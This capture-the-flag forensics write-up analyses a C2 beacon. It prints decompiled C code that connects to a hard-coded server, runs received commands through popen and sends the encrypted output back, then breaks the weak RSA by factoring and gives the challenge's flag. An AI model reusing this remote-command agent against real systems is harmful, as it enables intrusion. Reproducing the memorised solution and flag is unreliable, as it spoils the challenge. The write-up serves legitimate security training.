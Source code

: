 ## Name: Structured Annuity
#### Category: Forensics
#### Difficulty: Hard
#### Description: These J.G. Wentworth ads are getting out of hand! Now we're evem getting reports that they're using malware to try and get people cash for their structured settlements! Luckily, we were able to capture some network traffic of this c2 beacon, along with the binary and a memory capture of the running process. Unfortunately, it seems like the c2 agent contains no static keys and instead generates them at run time. Can you decrypt their comms?

## Procedure
This chall has the following files:
```
structuredAnnuity/
├── structured_annuity # Binary file
├── structured_annuity.dump # binary dump
└── structured_annuity.pcapng #Wireshark capture
```
The first file I have seen was the pcapng file, using the command ```tshark -r structuredAnnuity/structured_annuity.pcapng -T fields -e data``` i have seen some interesting encrypted data, When i saw the value ```65537```, I knew the Cipher method was RSA Encryption, because ```65537``` is  the common value for ```e```

![2024-09-24_16-28](https://github.com/user-attachments/assets/d6acfab1-a31c-401f-a61e-8e6bbcc4025d)


```
56048657891568470071072200352453435307145615629716429378285176310839997106837:65537
34052883331862194561588316384768805552479914185714526668665063402813300904421:65537
26837762086290757052486642102560852925225702609872568979330654281329444894706
29977567988592954316835508906387630123424709642590239142264084540225085777016
```

next step is open the bin file ```structured_annuity``` and check every function in order to recover the private key used to encrypt our flag in ```26837762086290757052486642102560852925225702609872568979330654281329444894706``` or ```29977567988592954316835508906387630123424709642590239142264084540225085777016```

here, we open the binary file using ghidra, this shows us the following code

#### main content
1) It creates a socket and establishes a connection to a server (172.30.240.1) on port 0x2329 (9001 in decimal). The connect() function is used to check the connection status.
2) The client's RSA private key is initialized with the name "privkey".
3) The client connects to the server at 172.30.240.1:9001.
4) The client's public key (n, e) is sent to the server.
   
```
int main(void)

{
  long lVar1;
  rsaKeyStore rsa_00;
  rsaKeyStore rsa_01;
  int iVar2;
  int iVar3;
  size_t sVar4;
  FILE *__stream;
  char *pcVar5;
  long in_FS_OFFSET;
  int sockD;
  int connectStatus;
  FILE *fp;
  sockaddr_in servAddr;
  mpz_t encrypted;
  mpz_t decrypted;
  mpz_t message;
  mpz_t encryptedm;
  rsaKeyStore rsa;
  rsaKeyStore serverPublic;
  char strData [1024];
  char pubkey [1024];
  char commandOutput [1024];
  char testing [1024];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  init_rsa();
  rsa.name[0] = 'p';
  rsa.name[1] = 'r';
  rsa.name[2] = 'i';
  rsa.name[3] = 'v';
  rsa.name[4] = 'k';
  rsa.name[5] = 'e';
  rsa.name[6] = 'y';
  rsa.name[7] = '\0';
  iVar2 = socket(2,1,0);
  servAddr.sin_family = 2;
  servAddr.sin_port = htons(0x2329);
  inet_aton("172.30.240.1",(in_addr *)&servAddr.sin_addr);
  iVar3 = connect(iVar2,(sockaddr *)&servAddr,0x10);
  if (iVar3 == -1) {
    puts("Error...");
    iVar2 = 0;
  }
  else {
    puts("%Zd:%Zd\n");
    __gmp_sprintf(pubkey,"%Zd:%Zd\n",rsa.n,rsa.e);
    sVar4 = strlen(pubkey);
    send(iVar2,pubkey,sVar4,0);
    recv(iVar2,strData,0x400,0);
    __gmpz_inits(serverPublic.n,serverPublic.e,0);
    __gmp_sscanf(strData,"%Zd:%Zd\n",serverPublic.n,serverPublic.e);
    puts("GOT SERVER PUBLIC KEY\n%Zd\n%Zd\n");
    memset(strData,0,0x400);
    while( true ) {
      __gmpz_inits(encrypted,decrypted,0);
      recv(iVar2,strData,0x400,0);
      __gmp_sscanf(strData,&DAT_00103047,encrypted);
      rsa_00.p[0]._mp_alloc = rsa.p[0]._mp_alloc;
      rsa_00.p[0]._mp_size = rsa.p[0]._mp_size;
      rsa_00.name[0] = rsa.name[0];
      rsa_00.name[1] = rsa.name[1];
      rsa_00.name[2] = rsa.name[2];
      rsa_00.name[3] = rsa.name[3];
      rsa_00.name[4] = rsa.name[4];
      rsa_00.name[5] = rsa.name[5];
      rsa_00.name[6] = rsa.name[6];
      rsa_00.name[7] = rsa.name[7];
      rsa_00.p[0]._mp_d = rsa.p[0]._mp_d;
      rsa_00.q[0]._mp_alloc = rsa.q[0]._mp_alloc;
      rsa_00.q[0]._mp_size = rsa.q[0]._mp_size;
      rsa_00.q[0]._mp_d = rsa.q[0]._mp_d;
      rsa_00.e[0]._mp_alloc = rsa.e[0]._mp_alloc;
      rsa_00.e[0]._mp_size = rsa.e[0]._mp_size;
      rsa_00.e[0]._mp_d = rsa.e[0]._mp_d;
      rsa_00.d[0]._mp_alloc = rsa.d[0]._mp_alloc;
      rsa_00.d[0]._mp_size = rsa.d[0]._mp_size;
      rsa_00.d[0]._mp_d = rsa.d[0]._mp_d;
      rsa_00.n[0]._mp_alloc = rsa.n[0]._mp_alloc;
      rsa_00.n[0]._mp_size = rsa.n[0]._mp_size;
      rsa_00.n[0]._mp_d = rsa.n[0]._mp_d;
      rsa_00.phi[0]._mp_alloc = rsa.phi[0]._mp_alloc;
      rsa_00.phi[0]._mp_size = rsa.phi[0]._mp_size;
      rsa_00.phi[0]._mp_d = rsa.phi[0]._mp_d;
      rsa_decrypt(rsa_00,decrypted,encrypted);
      memset(strData,0,0x400);
      mpzToCharArray(strData,decrypted);
      printf("Command: %s",strData);
      __stream = popen(strData,"r");
      if (__stream == (FILE *)0x0) break;
      while( true ) {
        pcVar5 = fgets(commandOutput,0x400,__stream);
        if (pcVar5 == (char *)0x0) break;
        __gmpz_inits(message,encryptedm,0);
        charArrayToMpz(message,commandOutput);
        rsa_01.p[0]._mp_alloc = serverPublic.p[0]._mp_alloc;
        rsa_01.p[0]._mp_size = serverPublic.p[0]._mp_size;
        rsa_01.name[0] = serverPublic.name[0];
        rsa_01.name[1] = serverPublic.name[1];
        rsa_01.name[2] = serverPublic.name[2];
        rsa_01.name[3] = serverPublic.name[3];
        rsa_01.name[4] = serverPublic.name[4];
        rsa_01.name[5] = serverPublic.name[5];
        rsa_01.name[6] = serverPublic.name[6];
        rsa_01.name[7] = serverPublic.name[7];
        rsa_01.p[0]._mp_d = serverPublic.p[0]._mp_d;
        rsa_01.q[0]._mp_alloc = serverPublic.q[0]._mp_alloc;
        rsa_01.q[0]._mp_size = serverPublic.q[0]._mp_size;
        rsa_01.q[0]._mp_d = serverPublic.q[0]._mp_d;
        rsa_01.e[0]._mp_alloc = serverPublic.e[0]._mp_alloc;
        rsa_01.e[0]._mp_size = serverPublic.e[0]._mp_size;
        rsa_01.e[0]._mp_d = serverPublic.e[0]._mp_d;
        rsa_01.d[0]._mp_alloc = serverPublic.d[0]._mp_alloc;
        rsa_01.d[0]._mp_size = serverPublic.d[0]._mp_size;
        rsa_01.d[0]._mp_d = serverPublic.d[0]._mp_d;
        rsa_01.n[0]._mp_alloc = serverPublic.n[0]._mp_alloc;
        rsa_01.n[0]._mp_size = serverPublic.n[0]._mp_size;
        rsa_01.n[0]._mp_d = serverPublic.n[0]._mp_d;
        rsa_01.phi[0]._mp_alloc = serverPublic.phi[0]._mp_alloc;
        rsa_01.phi[0]._mp_size = serverPublic.phi[0]._mp_size;
        rsa_01.phi[0]._mp_d = serverPublic.phi[0]._mp_d;
        rsa_encrypt(rsa_01,encryptedm,message);
        __gmp_sprintf(testing,&DAT_00103066,encryptedm);
        sVar4 = strlen(testing);
        send(iVar2,testing,sVar4,0);
        memset(testing,0,0x400);
      }
      pclose(__stream);
    }
    perror("popen failed");
    iVar2 = 1;
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return iVar2;
}

```

Now, i have ran the command ```strings structured_annuity.dump```, this shows us the following output

```
privkey
echo Womp Womp, flag is gone !
56048657891568470071072200352453435307145615629716429378285176310839997106837:65537
```

this was the value we found before in pcapng file, this is probably the value for N (Modulus), the length is very short, maybe we can recover the private key using a factorization agains the modulus, u can do it using ```factorint``` from ```sympy``` library or using [alpertron](https://www.alpertron.com.ar/ECM.HTM), with factor options agains ```56048657891568470071072200352453435307145615629716429378285176310839997106837```

output
```
p = 168671056797319678404059216640521393881
q = 332295646661645445201577206886078338077
```

With value ```p``` and ```q``` allows us to calculate [phi](https://en.wikipedia.org/wiki/Euler%27s_totient_function), from here we will able to calculate our private key.
I have written the following code.

```

N = 56048657891568470071072200352453435307145615629716429378285176310839997106837
e = 65537

p = 168671056797319678404059216640521393881
q = 332295646661645445201577206886078338077

phi = (p-1)*(q-1)
d = pow(e,-1,phi)
print("private key:",d)

c=26837762086290757052486642102560852925225702609872568979330654281329444894706

flag = pow(c,d,N)
print(bytes.fromhex(hex(flag).replace("0x","")))

```

output
```
private key: 45672254238694517229588473497755821278301582789231329188960528375453326722433
b'echo PCTF{8U7_I_N33D_C@5H_N0W}'
```

